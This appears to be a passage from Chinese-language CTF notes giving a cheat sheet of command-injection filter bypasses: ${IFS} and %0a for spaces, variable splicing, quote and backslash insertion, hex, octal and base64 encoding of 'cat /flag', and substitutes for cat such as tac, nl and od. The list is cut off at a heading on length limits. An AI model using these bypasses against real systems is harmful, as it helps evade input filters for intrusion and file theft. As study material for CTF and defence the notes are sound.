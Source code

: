 > ![image-20220519225520020](image-20220519225520020.png)

> ### 绕过技巧： 
>
>  # 管道符号绕过 
>
> \# 空格绕过 ${IFS} 
>
> \# %0a、%09 # 重定向绕过 < <> 
>
> \# 变量拼接绕过 @kali:$ a=c;b=at;c=fl;d=ag;$a$b $c$d 
>
> \# 单引号、双引号绕过 ca''t flag cat"" flag 
>
> \# 编码绕过 
>
> ​		$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag
>
> ​		\#{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|\$0 ==>cat /flag 
>
> ​		#$(printf "\154\163") ==>ls 
>
> ​		$(printf "\154\163") 
>
> \# 查看等价替换 
>
> ​		(1)more:一页一页的显示档案内容 
>
> ​		(2)less:与more类似，但是比more更好的是，他可以[pg dn][pg up]翻页 
>
> ​		(3)head:查看头几行 
>
> ​		(4)tac:从最后一行开始显示，可以看出tac是cat的反向显示 
>
> ​		(5)tail:查看尾几行 
>
> ​		(6)nl：显示的时候，顺便输出行号 
>
> ​		(7)od:以二进制的方式读取档案内容 
>
> ​		(8)vi:一种编辑器 
>
> ​		(9)vim:一种编辑器 
>
> ​		(10)sort:可以查看 
>
> ​		(11)uniq:可以查看 
>
> ​		(12)file -f:报错出具体内容
>
> \# 反斜线绕过 c\at fl\ag 
>
> \# 内敛注释绕过\#`命令`和$(命令)都是执行命令的方式 echo "m0re#`cat flag`" 	echo "m0re $(cat flag)" 
>
> \# base64编码绕过 `echo "Y2F0IGZsYWc="|base64 -d` 
>
> \# 绕过长度限制 
>